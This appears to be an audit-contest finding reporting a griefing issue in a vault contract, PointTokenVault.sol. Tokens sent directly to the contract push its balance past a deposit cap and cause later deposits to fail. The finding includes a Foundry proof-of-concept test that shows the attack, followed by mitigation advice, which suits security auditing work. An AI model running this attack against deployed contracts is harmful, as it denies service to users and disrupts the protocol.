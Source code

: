 Trendy Chiffon Eel

Medium

# Malicious Actors can cause Grieving by Forcing Tokens into the Contract Leading to Cap Over-limit.

### Summary

The PointTokenVault.sol contract does not have internal accounting mechanisms to track the actual amount of tokens held within the contract. This oversight allows an attacker to exploit the lack of accounting checks by forcing tokens into the contract, resulting in a situation where the token balance exceeds the cap limit. The protocol does not currently have checks in place to prevent or mitigate this attack, leading to potential denial-of-service or operational disruptions.

### Root Cause

The PointTokenVault.sol contract relies solely on external transfers and approvals to manage its token balances and lacks internal accounting controls. When users deposit tokens, the contract correctly increments its internal balances, but there is no mechanism to detect or handle tokens transferred directly to the contract address outside of the usual deposit flow. For instance it uses the total token balance in the contract to check the cap limit is not violated. 
```solidity

https://github.com/sherlock-audit/2024-07-sense-points-marketplace/blob/076bf833f4dc1418e93c8172e4a4110344f1c812/point-tokenization-vault/contracts/PointTokenVault.sol#L117-L119

```

### Internal pre-conditions

The PointTokenVault.sol contract has a set cap for the amount of each token it is designed to handle.
The contract does not have internal accounting mechanisms that actively monitor and validate the actual token balance against the cap.
Tokens can be sent directly to the contract address without calling a function in the PointTokenVault contract (i.e., through a standard ERC20 transfer).

### External pre-conditions

An attacker has tokens of the type managed by the PointTokenVault.
The contract must be deployed and active with a cap set for at least one of the supported tokens.
There is no restriction or filter on direct ERC20 token transfers to the PointTokenVault contract address.

### Attack Path

Attacker sends tokens directly to the PointTokenVault contract: The attacker uses an ERC20 transfer function to send tokens directly to the contract's address without interacting with the deposit function.
Exceeding the cap: The contract's token balance increases without any checks, potentially pushing the total amount over the pre-set cap.
Operational disruption: When the cap is exceeded, users may face issues with further deposits or withdrawals. The contract may malfunction due to incorrect internal balance assumptions.
Potential denial-of-service: If the contract logic or any external contracts interacting with it relies on the cap limit being respected, they may malfunction or be unable to interact correctly, resulting in a denial-of-service.

### Impact

Operational Disruption: The protocol may face operational issues due to incorrect balances, leading to failed transactions or incorrect logic execution.
Denial-of-Service: By exceeding the cap, the contract's logic may break or prevent legitimate user interactions, causing a denial-of-service.
Loss of Trust: Users and investors may lose trust in the protocol due to perceived mismanagement or vulnerability to attack.

### PoC

```solidity

// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import {MockERC20} from "./MockERC20.sol";
import {PointTokenVault} from "../src/PointTokenVault.sol";
import {DeployTokenVault} from "../script/DeployTokenVault.s.sol";

contract GriefingAttackTest is Test {
    PointTokenVault pointvaulttoken;
    MockERC20 testToken;

    address attacker = address(0xBEEF);
    address vaultAdmin;

    function setUp() public {
        DeployTokenVault deployScript = new DeployTokenVault();
        pointvaulttoken = deployScript.run();

        // Deploy a mock token
        testToken = new MockERC20("Test Token", "TST", 18);
        testToken.mint(attacker, 1000e18);

        // Assign roles
        vaultAdmin = deployScript.ANVIL_ADMIN();

        vm.startPrank(vaultAdmin);
        pointvaulttoken.setCap(address(testToken), 500e18);
        vm.stopPrank();
    }

    function testGriefingByForcingTokensIntoVault() public {
        // Initial setup check: Cap is set to 500 TST tokens
        assertEq(pointvaulttoken.getCap(address(testToken)), 500e18);

        // Attacker transfers tokens directly to the vault contract
        vm.prank(attacker);
        testToken.transfer(address(pointvaulttoken), 600e18);

        // The contract balance will now exceed the cap
        uint256 contractBalance = testToken.balanceOf(address(pointvaulttoken));
        assertEq(contractBalance, 600e18);  // Cap was exceeded

        // Check if the protocol logic is affected
        vm.prank(vaultAdmin);
        vm.expectRevert("Cap exceeded");
        pointvaulttoken.deposit(testToken, 100e18, attacker);
    }
}

```

### Mitigation

Implement internal accounting mechanisms to track the token balance within the contract independently of the actual ERC20 token balance. Add an internal mapping to track the total balance of each token and modify the relevant functions to update this mapping instead of relying solely on the token's balance in the contract.

Add checks to the deposit and any other relevant functions to ensure that the total token balance does not exceed the predefined cap.

Implement logic to reject or handle tokens sent directly to the contract address outside of the typical deposit mechanism.

By applying these mitigations, the protocol can avoid potential griefing attacks that aim to disrupt operations or exceed predefined caps, thereby maintaining functional integrity and user trust.